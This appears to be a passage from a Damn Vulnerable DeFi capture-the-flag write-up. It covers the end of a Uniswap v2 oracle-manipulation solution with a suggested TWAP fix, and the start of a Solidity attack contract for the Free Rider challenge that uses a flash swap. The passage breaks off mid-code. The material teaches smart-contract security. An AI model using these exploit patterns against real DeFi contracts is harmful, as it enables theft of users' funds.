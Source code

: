 ```solidity
    
    // Transfer borrowed tokens to recovery
    token.transfer(recovery, poolBalance);
}
```

### Why it works
1. Same principle as Puppet v1 but with Uniswap v2
2. Swap large amount of DVT for WETH to manipulate price
3. Use manipulated price to borrow tokens cheaply
4. WETH/DVT pair has insufficient liquidity to resist manipulation

### Fix
Same as Puppet v1 - implement TWAP pricing or use multiple oracle sources with price bounds and delays.

---

## Challenge 10: Free Rider

### Vulnerability
The NFT marketplace has a flawed payment mechanism that doesn't properly validate payment amounts when buying multiple NFTs.

### Exploit Code
```solidity
// Attack contract
contract FreeRiderAttacker {
    FreeRiderNFTMarketplace marketplace;
    DamnValuableNFT nft;
    FreeRiderRecovery recovery;
    IUniswapV2Pair pair;
    IWETH weth;
    
    constructor(
        FreeRiderNFTMarketplace _marketplace,
        DamnValuableNFT _nft,
        FreeRiderRecovery _recovery,
        IUniswapV2Pair _pair,
        IWETH _weth
    ) {
        marketplace = _marketplace;
        nft = _nft;
        recovery = _recovery;
        pair = _pair;
        weth = _weth;
    }
    
    function attack() external {
        // Flash swap 15 ETH from Uniswap
        pair.swap(15 ether, 0, address(this), "1");
    }
    
    function uniswapV2Call(
        address,
        uint256,
        uint256,
        bytes calldata
    ) external {
        // Convert WETH to ETH
        weth.withdraw(15 ether);
        
```